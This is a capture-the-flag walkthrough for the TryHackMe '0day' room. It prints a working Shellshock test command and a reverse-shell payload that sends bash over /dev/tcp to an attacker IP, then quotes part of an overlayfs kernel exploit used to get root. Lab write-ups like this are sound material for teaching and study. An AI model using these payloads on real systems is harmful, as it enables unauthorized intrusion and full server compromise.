










# 0day Walkthrough ([Tryhackme](https://tryhackme.com/room/0day)) - by [yag1n3](https://github.com/yaguine)

---

## Room Info

### Room Labels
* CVE
* kernel exploit
* shell shock
* 0day

### Room Objetives
* user flag
* root flag

---

## Reconnaissance

### nmap




### website



this is the personal website of the machine's creator Ryan Montgomery  
a little bit of flexing, i understand  
nothing interesting at first sight, lets go with the subdomain enumeration  


### subdomain enumeration



there are some interesting directories  
*uploads*, *secret*, *admin* and *robots.txt* look like rabbit holes  
*backup* is an RSA private key, i save it just in case we can use it later  
to me, *cgi-bin* is the most interesting one, so let's investigate about it  

so there is a [hacktricks page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi) on the subject  
it says that is used to store **Perl scripts** with the extension *.pl* or *.cgi*  
let's see if we can enumerate any script  
we use **gobuster dir**, adding the mentioned extensions... and we find *test.cgi*  

the output of the script is "Hello World", it doesn't look like a vector to compromise the web server  
but if we keep reading the hacktricks page, we see something called **ShellShock**  

---

## Exploiting ShellShock

first of all, we see a command to test if it's vulnerable, so let's confirm it  
`nmap <TARGET_IP> -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test.cgi`  

  

well, we have something to exploit here, now we need to know how  
i found [this article](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock), with the explanation and some payloads  

looks like vulnerable Bash versions execute commands that follow functions defined on environment variables  
also, some web servers follow the CGI specification allowing CLI programs to generate dynamic pages  
for this programs, request information (e.g. User-Agent) are stored in environment variables  
finally, they retrieve the standard output as the HTTP response  

so we know the deal right ? injecting a malicious payload on an HTTP Header and abusing it to get a reverse shell  


### proof of concept

```bash
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://<TARGET_IP>/cgi-bin/test.cgi
```

  

it definitely works  


### getting a reverse shell  

now, we start a netcat listerner on port 443  
we copy the payload for a reverse shell from the previous article  
```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/<LOCAL_IP>/443 0>&1" http://<TARGET_IP>/cgi-bin/test.cgi  
```
we have a shell on the machine with www-data  
this allows us to retrieve **user.txt** from */home/ryan*  

---

## Rooting the machine 

i try some manual enumeration, but it doesn't seem like there's an obvious way to escalate privileges  

i transfer [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to the target machine  
i run it, and it retrieves huge info  

  

so, the kernel version is vulnerable  
i find [an exploit](https://www.exploit-db.com/exploits/37292)  


### trying to execute the exploit

lets go to work : i transfer the exploit to the target machine and try to compile it, but we get the following message :  

  

at first sight it looks like there is no problem, since we can compile it in our machine  
so i compile it in my machine, tranfer the compiled file and run it, but this is the output  

  


### alternative solution

so, i say this is an "alternative" solution because i watched some writeups after finishing the machine and i didn't see anyone using this method  
we will be discussing the "intended" solution afterwards  

let's check the part of the code that is failing  
```c
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
```
so, it looks like the C file that is getting compiled by the program is */tmp/ofs-lib.c*  
*/tmp/ofs-lib.c* is getting compiled to the file */tmp/ofs-lib.so*  

so what we are gonna do is compile *ofs-lib.c* in my machine, send *ofs-lib.so* to the target machine, and then rerun the exploit but deleting the part of the code responsible for the compilation  

1. i transfer *ofs-lib.c* to my machine, and run `gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w`  
2. i transfer the compiled file *ofs-lib.so* to the target machine and place it on the */tmp* folder  
3. now i have to modify the initial exploit, but without the lines where the compilation happens  

  

4. lets compile this modified version of the exploit and transfer it to the target machine  
5. run it

  

we have a root shell !!  


### intended solution

for what i found on the internet, looks like the most obvious solution has to do with the PATH variable  
i'm gonna be honest, i didn't even think about it  
i just assumed that the necessary library just wasn't installed on the system  

so the value of $PATH in the machine is "/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."  
i google a more complete value and i find "/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"  
now i run **gcc** and it works, so we can easily compile and execute the exploit  


